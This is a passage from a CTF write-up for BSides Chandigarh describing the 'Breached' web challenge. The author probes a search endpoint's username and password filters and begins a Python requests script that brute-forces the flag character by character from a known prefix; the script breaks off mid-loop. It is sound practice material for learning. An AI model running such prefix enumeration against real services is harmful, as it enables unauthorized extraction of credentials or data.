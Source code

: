 list_isbn.txt is the list of cleaned isbns without the original indices and the original `-`

![Untitled](/assets/img/Bsides%20Chandigarh%20CTF%20a7731956d23c48518d7b48958789f1ea/Untitled%2012.png)

## Challenge 6: Breached

This was a very fun challenge, i first just randomly clicked enter and also iterated through a - z using username parameter and came across the following:

![Untitled](/assets/img/Bsides%20Chandigarh%20CTF%20a7731956d23c48518d7b48958789f1ea/Untitled%2013.png)

Now we know that flag format is `crac{`, so i used password filter to check for the same. And boom once again we get :

![Untitled](/assets/img/Bsides%20Chandigarh%20CTF%20a7731956d23c48518d7b48958789f1ea/Untitled%2014.png)

This time we only got this user which means the flag is there and we must bruteforce it, i made a python script to do so. For some reason `‘{’` was not appending properly in my script so i ran it till infinity till my password did not increment anymore and then manually added the final 2 `‘}}’`

```python
import requests
import string

# Base URL
url = 'http://web.ctf.defhawk.com:5000/search-db'

# Headers
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Referer': 'http://web.ctf.defhawk.com:5000/hogwartstechinc-breached-20231231',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://web.ctf.defhawk.com:5000',
    'Connection': 'close'
}

# Initial password
password = "crac\{\{ho"
chars = ''.join([chr(i) for i in range(32, 127)])
# Iterate over alphanumeric characters
while True:
    for char in string.ascii_letters + string.digits:
```